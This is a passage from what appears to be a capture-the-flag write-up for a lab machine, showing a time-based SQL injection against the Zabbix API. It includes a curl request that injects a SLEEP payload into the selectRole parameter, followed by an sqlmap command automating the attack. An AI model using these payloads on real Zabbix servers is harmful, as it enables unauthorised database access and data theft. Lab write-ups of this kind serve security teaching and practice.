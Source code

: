 Here we do not have the enough privileges.   
We can try now the `SQL injection` vulnerability.   

```bash
 curl -X POST http://10.10.11.50/zabbix/api_jsonrpc.php \
-H "Content-Type: application/json" \
-d '{
  "jsonrpc": "2.0",
  "method": "user.get",
  "params": {
    "selectRole": ["roleid", "name", "type", "readonly AND (SELECT(SLEEP(5)))"],
    "userids": ["1","2"]
  },
  "id": 1,
  "auth": "4126ce978b0bd473dc4d80142219c118"
}'
```

<br/> 
<img src="/img/Unrested_Screenshots/Pasted image 20241225011720.png" alt="1" style="width:700px; height:auto;">
<br/>

The output was delayed for `5` seconds. The `vulnerability` is now working.  We can let `sqlmap` continue now.   

```bash
sqlmap -u "http://10.10.11.50/zabbix/api_jsonrpc.php" --data '{
  "jsonrpc": "2.0",
  "method": "user.get",
  "params": {
    "selectRole": ["roleid", "name", "type", "readonly"],
    "userids": ["1","2"]
  },
  "id": 1,
  "auth": "4126ce978b0bd473dc4d80142219c118"
}' --headers="Content-Type: application/json" --batch
```

<br/> 
<img src="/img/Unrested_Screenshots/Pasted image 20241225012103.png" alt="1" style="width:700px; height:auto;">
<br/>
